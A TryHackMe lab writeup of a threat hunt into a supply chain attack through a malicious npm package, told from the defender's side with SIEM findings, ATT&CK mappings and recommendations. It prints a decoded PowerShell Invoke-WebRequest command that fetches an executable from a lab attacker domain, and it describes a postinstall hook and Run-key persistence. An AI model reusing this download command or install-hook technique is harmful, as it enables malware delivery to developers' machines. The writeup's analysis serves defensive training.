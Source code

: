 ```yaml
---
title: Threat Hunting Simulator - Health Hazard
description:  Tryhackme Threat hunting simulator
author: Prabin Shrestha
date: 2025-08-26 11:33:00 +0800
categories: [Writeup, TryHackMe]
tags: [writeup]
pin: false
math: true
mermaid: true
image:
  path: ../assets/img/favicon/writeup/thm/Threat_hunt_sim/15.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


# Incident Writeup – Supply Chain Attack

## Overview
During the setup of a new website, a malicious **npm package (`healthchk-lib@1.0.1`)** was introduced into the system.  
Investigation revealed a **supply chain compromise**: the package executed a hidden script, launched obfuscated PowerShell commands, and established persistence.

---

- **Dashboard Context**  
  The exercise presents a hypothesis that must be validated through log analysis and SIEM findings.

- **Mission**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/1.png){: width="972" height="589" }

- **Overall Summary**  
    ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/2.png){: width="972" height="589" }

- **Indicators of Compromise (IOC)**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/3.png){: width="972" height="589" }

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/4.png){: width="972" height="589" }

---

## Findings

### Diving into the SIEM

We begin by reviewing the system logs for unusual activity.

#### Initial Access

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/6.png){: width="972" height="589" }

- Log entries show the installation of the package:  
  `healthchk-lib@1.0.1` via **PowerShell**.  
  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/7.png){: width="972" height="589" }

- Scrolling further, we observe the execution of a **malicious script**:  
  `postinstall.ps1`  

- This script triggered **PowerShell with encoded commands**.  

 ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/11.png){: width="972" height="589" }

- Using **CyberChef** to decode the command:  

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/5.png){: width="972" height="589" }

  → The decoded payload reveals attempts to download an executable (`SystemHealthUpdater.exe`) from the domain `global-update.wlndows.thm`.

#### Attack Stage Diagram
- **Stage 1: Initial Access**  
  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/13.png){: width="972" height="589" }

---

### Execution

- **Title**: Malicious Script Execution Post Installation  
- **Description**: A PowerShell command executed via `cmd.exe` downloaded `SystemHealthUpdater.exe` using `Invoke-WebRequest`.  
- **Timestamp**: June 21, 2025, 11:58:27 AM BST  
- **Tactic & Technique**:  
  - Execution (**TA0002**)  
  - Command and Scripting Interpreter (**T1059**)  
- **Indicators of Compromise (IOC)**:  
  - Decoded PowerShell revealed:  
    ```powershell
    Invoke-WebRequest -Uri http://global-update.wlndows.thm/SystemHealthUpdater.exe -OutFile $env:APPDATA\SystemHealthUpdater.exe
    ```  

*(Missed the screenshot for this step 🙃)*

---

### Persistence

![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/14.png){: width="972" height="589" }

- **Technique Correction**: Persistence was achieved via **Boot or Logon Autostart Execution**, not the originally assumed method.  
- Registry Run Key entry:  

## Report

All IOCs identified at the beginning were validated during the investigation.  
The hypothesis was confirmed, and the findings were submitted.  

- **AI-Generated Report Reminder**:  
The automated system may omit some details. Always review before final submission.  

  ![Desktop View](../assets/img/favicon/writeup/thm/Threat_hunt_sim/15.png){: width="972" height="589" }

---

## Summary

- **Initial Access**: Supply chain attack through npm dependency.  
- **Execution**: Obfuscated PowerShell downloaded and attempted to run a malicious payload.  
- **Persistence**: Run Key added under `HKCU` ensured execution at logon.  

---

## Recommendations

- Perform **regular dependency audits** (`npm audit`, third-party scanners).  
- Enable and monitor **detailed PowerShell logging**.  
- Monitor for suspicious **registry modifications** in `HKCU\...\Run`.  
- Block traffic to **untrusted external domains**.  
- Educate developers on the **risks of supply chain compromises** in open-source packages.  